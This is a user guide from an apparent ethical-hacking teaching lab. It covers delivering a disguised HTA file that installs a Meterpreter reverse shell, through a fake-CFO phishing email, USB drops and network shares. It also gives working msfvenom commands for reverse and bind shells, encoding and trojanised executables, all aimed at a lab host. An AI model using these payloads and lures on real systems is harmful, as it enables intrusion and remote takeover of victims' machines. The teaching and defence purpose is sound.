







# User Guide - HTA Exploit Lab

Complete guide for running attacks, exploring scenarios, and managing the lab environment.

---

## Table of Contents

1. [Attack Workflow](#attack-workflow)
2. [Delivery Scenarios](#delivery-scenarios)
3. [Available Scripts](#available-scripts)
4. [Lab Management](#lab-management)
5. [Best Practices](#best-practices)

---

## Attack Workflow

### Understanding the HTA Exploit



### What the Victim Sees

| Stage | Victim Perspective | Actual Activity |
|-------|-------------------|-----------------|
| **Download** | "Q4_Financial_Report.pdf" with PDF icon | HTA file with .hta extension hidden |
| **Double-click** | Brief loading message, window closes | VBScript downloads and executes EXE |
| **Execution** | Nothing visible (silent) | Meterpreter payload connects to attacker |
| **Result** | Normal system operation | Remote access granted to attacker |

**Key Techniques:**
- Social engineering via fake PDF icon
- Hidden file extensions (.hta not shown by default)
- Silent execution (no visible windows)
- Reliable payload delivery (EXE vs in-memory)

---

## Delivery Scenarios

### Scenario 1: Phishing Email Attack

**Setup:**
```bash
# 1. On Kali: Start attack
cd /vagrant/exploits/hta
./start_hta_attack.sh

# 2. Share download link
echo "http://192.168.56.101:8080/Q4_Financial_Report_EXE.pdf.hta"
```

**Email Template:**
```
Subject: Q4 Financial Results - URGENT

Dear Team,

Please review the attached Q4 financial report before
tomorrow's board meeting.

Download: http://192.168.56.101:8080/Q4_Financial_Report_EXE.pdf.hta

Best regards,
CFO
```

**Attack Flow:**


**Success Indicators:**
- HTTP server logs show GET request for HTA file
- Metasploit shows "Sending stage" message
- Meterpreter session opens

---

### Scenario 2: USB Drop Attack

**Setup:**
```bash
# 1. Copy HTA to USB drive (from Kali shared folder)
# On host: /vagrant/exploits/hta/ is shared
# Copy Q4_Financial_Report_EXE.pdf.hta to USB

# 2. Label USB: "Executive Salaries 2024" or "Confidential HR"

# 3. Leave in target area (parking lot, conference room)
```

**Attack Flow:**


**Social Engineering Tips:**
- Use believable labels (HR documents, salary info, contracts)
- Place in locations where target employees frequent
- File names should match the USB label

---

### Scenario 3: Shared Network Folder

**Setup:**
```bash
# 1. Place HTA in network share
# In lab: Copy to C:\vagrant\exploits\hta on Windows VM

# 2. Rename to look legitimate
# Example: "Company_Policy_Update_2024.pdf.hta"

# 3. Wait for users to access shared folder
```

**Realistic Variations:**

| Scenario | Filename | Success Rate |
|----------|----------|--------------|
| Policy update | Company_Policy_Update_2024.pdf.hta | High |
| Benefits info | 2024_Benefits_Enrollment.pdf.hta | High |
| Training material | Mandatory_Security_Training.pdf.hta | Medium |
| Meeting notes | Q1_Leadership_Meeting_Notes.pdf.hta | Medium |

---

## Available Scripts

### Kali Linux Scripts

| Script | Location | Purpose |
|--------|----------|---------|
| `create_exe_payload.sh` | `/vagrant/exploits/hta/` | Generate Meterpreter EXE and HTA files |
| `start_hta_attack.sh` | `/vagrant/exploits/hta/` | Launch attack (HTTP server + Metasploit listener) |

**Script Workflow:**



### Windows Scripts

| Script | Location | Purpose |
|--------|----------|---------|
| `download_hta_powershell.ps1` | `C:\vagrant\exploits\hta\` | Download HTA from Kali HTTP server |
| `create_desktop_lnk_to_hta.ps1` | `C:\vagrant\exploits\hta\` | Create shortcut with PDF icon |

### Attack Automation

**start_hta_attack.sh workflow:**



---

## Lab Management

### Starting the Lab

```bash
cd vagrant
vagrant up        # Start both VMs (if halted)
```

**Boot time:** ~3-5 minutes for both VMs

### Stopping the Lab

```bash
vagrant halt      # Graceful shutdown (saves state)
```

**When to halt:**
- End of practice session
- Need to free system resources
- Switching to other work

### Resetting the Lab

```bash
./reset.sh        # Restore VMs to clean snapshot (30 seconds)
```

**When to reset:**
- After completing an attack
- Before trying a new scenario
- After making changes you want to undo
- When Windows is compromised and you want clean state

### Destroying the Lab

```bash
./cleanup.sh      # Remove all VMs and free disk space
```

**Warning:** This deletes everything. Re-run `./setup.sh` to rebuild.

### VM Management Commands

| Task | Command | Time |
|------|---------|------|
| Check status | `vagrant status` | Instant |
| Restart VMs | `vagrant reload` | 3-5 min |
| Access Kali | `vagrant ssh kali` | Instant |
| Access Windows | `vagrant rdp win2k8` | Instant |
| Suspend VMs | `vagrant suspend` | 30 sec |
| Resume VMs | `vagrant resume` | 1 min |

### Lab Lifecycle



---

## Best Practices

### For Learning

| Practice | Benefit |
|----------|---------|
| Read technical docs first | Understand the "why" before the "how" |
| Try different delivery methods | Learn multiple attack vectors |
| Document your findings | Reinforce learning, create reference |
| Practice defenses | Learn detection and prevention |
| Reset between attempts | Consistent starting point |

### For Teaching

**Demonstration Checklist:**
- [ ] Show PDF icon vs actual HTA file (reveal hidden extensions)
- [ ] Explain social engineering psychology
- [ ] Capture network traffic with Wireshark
- [ ] Demonstrate how defenses would prevent attack
- [ ] Discuss real-world implications and ethics

**Student Exercises:**
1. Run automated attack successfully
2. Modify email template for different scenarios
3. Create proof of exploitation file on Desktop
4. Research how AppLocker would block the attack
5. Write incident response plan

### For Security Awareness

**Key Lessons:**



### Ethical Guidelines

| Do | Don't |
|----|-------|
| Use lab in isolated environment | Attack unauthorized systems |
| Document learning outcomes | Share techniques for malicious use |
| Practice responsible disclosure | Exploit vulnerabilities without permission |
| Follow institutional policies | Violate computer fraud laws |
| Learn offensive AND defensive | Skip the defensive lessons |

**Legal Reminder:** Unauthorized access to computer systems violates laws including:
- Computer Fraud and Abuse Act (CFAA) - United States
- Computer Misuse Act - United Kingdom
- Criminal Code (Unauthorized Use of Computer) - Canada
- Similar laws worldwide

**Maximum penalties:** Fines up to $250,000 and/or 20 years imprisonment

---

## Advanced Topics

### Modifying the Payload

**Custom LHOST/LPORT:**
```bash
# Edit create_exe_payload.sh
LHOST="192.168.56.101"  # Change to your IP
LPORT="4444"            # Change to your port

# Regenerate
./create_exe_payload.sh
```

**Different Payload Types:**
```bash
# Reverse HTTPS (encrypted)
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=192.168.56.101 LPORT=443 \
    -f exe -o update_https.exe

# Bind shell (victim listens)
msfvenom -p windows/x64/meterpreter/bind_tcp \
    LPORT=4444 \
    -f exe -o bind_shell.exe
```

### Evasion Techniques (Educational)

**Encoder (basic obfuscation):**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=192.168.56.101 LPORT=4444 \
    -e x64/xor_dynamic \
    -f exe -o encoded.exe
```

**Template injection:**
```bash
# Use legitimate executable as template
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=192.168.56.101 LPORT=4444 \
    -x legitimate_app.exe \
    -f exe -o trojan.exe
```

---

## Next Steps

**Completed your first attack?**
- ✅ Explore [Meterpreter Commands](METERPRETER_USAGE_GUIDE.md)
- ✅ Review [Learning Objectives](LEARNING_OBJECTIVES.md)
- ✅ Read [Technical Details](../exploits/hta/README.md)
- ✅ Study [Troubleshooting](../TROUBLESHOOTING.md)

**Ready for more challenges?**
1. Try different social engineering scenarios
2. Practice with Meterpreter post-exploitation
3. Research defensive measures (AppLocker, PowerShell logging)
4. Create a penetration test report
5. Implement and test defensive controls

---

**Questions?** See [TROUBLESHOOTING.md](../TROUBLESHOOTING.md) or [open an issue](https://github.com/gcheliz/ethical-hacking-student-lab/issues).

---

**Version:** 2.0 - HTA Exploit Lab
**Last Updated:** 2026-01-10
